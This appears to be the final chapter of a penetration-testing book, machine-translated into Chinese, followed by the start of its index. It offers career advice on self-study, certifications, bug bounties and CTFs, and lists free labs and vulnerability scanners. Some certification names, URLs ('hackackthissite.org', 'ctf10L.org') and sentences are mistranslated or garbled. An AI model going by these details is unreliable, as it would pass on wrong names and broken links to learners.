自学应该是那些愿意在网络安全领域（特别是渗透测试领域）蓬发展的人的核心特征。自学源于你对学习新事物的渴望。因此，你会获得成就感并感到目标感。


图 10.5: 自学

自学过程允许你通过实际应用来提高知识，而无需任何注册制的评估。这使得它纯粹是为了学习本身。自学帮助你培养解决问题的能力。这绝对是压力的，因为没有考试和截止日期，只有满足感和好奇心得到满足。通过获得辅助技能，你帮助自己在职业生涯中进步。你可以选择自己的学习方式并找到舒适的媒介，可以是在线免费视频、实验或网络研讨会。

### 认证

认证不是作为渗透测试员脱颖而出的唯一途径，但有许多在线和标准的校内网络安全认证课程。其中大多数侧重于不同阶段的网络和数据保护。每项认证都为候选人实现一个详细的目标做准备。此类课程教授加密方法、计算机系统安全、取证调查、网络防御布局等。以下是渗透测试员可以追求的一些高质量认证：

- 安全认证专业人员 (OSCP)
- 攻击安全专家 (OSCE)
- GIAC 认证渗透测试员 (GPEN)
- GIAC 漏洞研究与高级渗透测试员 (GXPN)
- 认证渗透测试员 (CPT)
- CompTIA PenTest+

### 网络上的免费课程

知识在互联网上可以免费获取。许多优秀人士投入时间在 YouTube 等平台上创建免费内容，帮助社区成长。学生需要的是以组织的方式收集这些知识。与任何付费培训课程不同，免费课程并不总是组织的。因此，你在学习时可能需要反复。以下是一些帮助你起步的优质免费资源：

- YouTube 上的免费课程：`youtube.com/results?search_query=penetration+testing+tutorial`
- FreeCodeCamp：`freecodecamp.org`
- Security Now：`securitytube.net`
- MIT 免费课程：`ocw.mit.edu/courses/electrical-engineering-and-computer-science/6-858-computer-systems-security-fall-2014/video-lectures/`

## 漏洞赏计划参与

参与漏洞赏是保持技术同步的同时赚钱和认可的好方法。漏洞赏计划允许独立安全人员向公司报告漏洞并获得奖励或报酬。这些漏洞通常是安全漏洞和漏洞，也可以包括程序问题、硬件缺陷等。报告通常通过独立第三方（如 Bugcrowd 或 HackerOne）运行的计划提交。组织将根据公司需求设立并运行计划。以下是一些渗透测试员可以开始的优质漏洞赏平台：

- Hacker One
- BugCrowd

某些组织可能对渗透测试员实施不同的政策，可能不允许你参加漏洞赏计划。我们建议你在参与任何漏洞赏计划之前先与管理层进行讨论。

# 通过 CTF 竞赛进行竞争性学习

夺旗赛（CTFs）是一种计算机安全竞赛。此外，CTF 是精炼黑客能力的一种极佳方法。在 CTF 中，竞争对手之间展开对决，通常情况下，这是一个人网络安全职业的起点。以下是一些开启你 CTF 之旅的极佳资源：

- `https://ctf10L.org/`
- `https://ctftime.org/ctfs`
- Google CTF: `https://capturetheflag.google.com/`

如果你以前从未参加过 CTF 活动，不要感到失望或放弃。执行任何黑客攻击的诀窍在于坚持。虽然在某些情况下坚持这一点具有挑战性，但它是学习、深入学习和自我练习的唯一方法。也许在下一次你会有所突破。在你的第一次 CTF 期间，如果可能，你可以尝试联系一个足够灵活并让你加入其中的经验丰富的团队。信息安全社区的参与者通常愿意与任何渴望在该领域学习和成长的个人分享他们的知识。因此，这对你来说不会是一项困难的任务。

# 回馈社区

知识共享在信息安全社区领域起着重要作用。当你看到一个成功的信息安全专业人员时，你应该记住，在这个世界上有人曾发挥过重要作用，激励了那个人对信息安全产生热情并作为专业人士成长。一点微小的启发就能产生巨大的影响，并且可能来自各种来源。它可能是会议上的演讲、一篇博客文章、一次 CTF 竞赛，甚至是一次工作推荐。

始终记住，没有任何成功的专业人士是单凭自己取得今天的成就的。无疑，他们很幸运能从熟练的安全专业人员那里学习，这些人直接或间接地塑造了他们的职业成长。虽然许多人可能永远无法完全意识到这种影响，但意识到免费向社区分享知识的力量是非常重要的。这有助于知识在他人之间的传播和演变。

因此，将学习作为首要任务，并在另一方面通过分享知识帮助他人成长是非常重要的：


图 10.6：回馈社区

我们都可以从他人的成功中获益，有时甚至从他人的失败中获益更多。我们每个人每天都面临问题，并寻求 Google 的帮助来解决它们。我们通过某些博客文章、论坛帖子或视频教程立即获得解决方案。记住，这个世界上有人花费宝贵的时间创建了帖子并分享了知识。否则，我们的解决问题的能力将大幅减少。这应该是你与社区分享更多内容的足够启发。你可以做：

- 就你以独特方式解决的任何问题编写博客文章
- 制作视频视频知识
- 建立非正式导师计划
- 加入本地的安全小组，例如 BSides 和 OWASP
- 在你下一次本地信息安全活动中担任志愿者
- 联系其他信息安全社区成员

# 免费安全项目、实验室及更多资源

- Bug Crowd University: `https://github.com/bugcrowd/bugcrowd_university`
- Hack this site: `https://www.hackackthissite.org/`
- Try Hack Me: `https://tryhackme.com/`
- Pentesterlab: `https://pentesterlab.com/exercises?dir=desc&only=free&sort=published_at`
- OWASP Project Inventory: `https://owasp.org/projects/`
- 网络漏洞扫描器：一种网络漏洞扫描器，允许渗透测试人员以自动方式发现目标网络设备（计算机、路由器、IoT 设备等）上的现有漏洞。大多数高质量的网络漏洞扫描器需要自定义以获得最大的效益。自定义在很大程度上取决于其所使用的目标。
- celerystalk：`celerystalk` 通过异步作业帮助自动化网络扫描和枚举过程，同时保留对渗透测试人员想要在目标上运行的工具的完全控制。
- OpenVAS：OpenVAS 是流行的 Nessus 漏洞评估系统的免费软件实现。
- Vuls：Vuls 是一个基于 Linux 和 FreeBSD 系统的无代理漏洞扫描器。该扫描器用 Go 语言编写。
- Web 漏洞扫描器：Web 漏洞扫描器允许渗透测试人员以自动方式发现任何目标 Web 应用（有时是 Web 服务器）中的漏洞（XSS、SQL 等）。大多数高质量的 Web 漏洞扫描器需要自定义以获得最大收益，自定义主要取决于使用的目标：
- ACSTIS：ACSTIS 是一种针对 AngularJS 的自动化客户端模板注入（沙箱逃逸/绕过）检测工具，ACSTIS 帮助渗透测试人员扫描某些 AngularJS 客户端模板注入漏洞（有时称为 CSTI、沙箱逃逸或沙箱绕过）。
- Arachni：Arachni 是一个用于审查 Web 安全的可脚本框架。它是一个功能丰富、模块化、高性能的 Ruby 框架，旨在供渗透测试人员和管理员审查现代 Web 应用的安全。
- JCS：JCS 是一个 Joomla 漏洞扫描器，带有针对 exploitdb 的自动数据库更新器。
- Nikto：Nikto 是一个开源 GPL Web 服务器扫描器，通过对 Web 服务器进行不同类型漏洞的深度测试。
- SQLMate：这是 SQL map 的一个伙伴，根据指定的磁盘识别 SQL。
- WPScan：WPScan 是一个黑箱 WordPress 内容系统扫描器。
- Wapiti：Wapiti 是一个黑箱应用程序漏洞扫描器，同时也内置了模糊器（fuzzers）。
- cms-explorer：cms-explorer 是一个用于查找任何 Web 应用使用的 CMS（内容管理系统）的工具。
- w3af：w3af 是一个开源 Web 应用安全扫描器，帮助渗透测试人员识别任何 Web 应用中的漏洞。它可以根据目标进行自定义。

## 结论

如，将渗透测试的日常工作汇总到一个处是一项困难的工作。但在本章中，我们尽力为你提供了一个概述，我们相信你们中的一些人发现它很有趣。现在，你已经读到了这本书的最后。恭喜你！我们坚信你喜欢这本书，并希望我们能够提供一些知识，帮助你开始你的渗透测试人员职业。我们祝你作为渗透测试专业人士的职业生涯一切顺利。

# 需要记忆的点

- 保持对渗透测试的消息。就像任何其他工作一样，你知道越多，就越好。了解最新的威胁态势可以帮助你了解每天出现的各种攻击和模式。这些信息加强了你作为渗透测试人员需要注意的知识储备。
- 建立你的声誉非常重要。为了让某人（任何人）让你进入他们存储所有数据的网络基础设施，他们应该信任你。如果你建立了一个不可信的声誉，这将影响你作为渗透测试人员的职业。这表明你不能成为罪犯！在任何情况下都必须遵守道德规范。构建你的同伴网络和可以为你作书的人脉，并以正直且熟练的专家形象行事。
- 你必须理解黑客做什么。作为一个有道德的人，要像罪犯一样思考是挑战性的，但这正是优秀的渗透测试人员成功的地方。你必须思考超越道德标准的人会做。你可以通过阅读过去的攻击来了解更多关于执行者的信息。

# 目录

# A
ACSTIS 298
主动指纹扫描 195
主动操作系统指纹识别 212
高级加密标准 (AES) 243
高级渗透威胁 3
airodump-ng
使用，嗅嗅特定目标 256
Android 应用
反向工程 179, 180
Android 应用渗透测试
自动化扫描 149
深度手动渗透测试 149
对问题/自动扫描结果的手动验证 149
Android 调试桥 (adb) 47
Android 开发环境 47
Android 设备
路径 27
Android 模拟器 47
Android 渗透测试实验室备查表 55, 56
Apache HTTPD 远程拒绝服务 105
APK (Android 安装包) 179
Apktool
关于 54
功能 54
应用程序编程接口 (API) 112
AppSec 104
Arachni 299
关联
请求 246
响应 247
攻击复杂度 (AC) 282
攻击向量 (AV) 282
身份认证 67
请求 246
响应 246
授权 67
自动化 Android 移动应用扫描 150
自动化扫描
动态扫描 149
静态扫描 149
自动化安全源码审计 131
对比手动源码审计 133, 134
自动化源码扫描 132
分析 132
构建集成 132
翻译 132
翻译与分析的验证 132
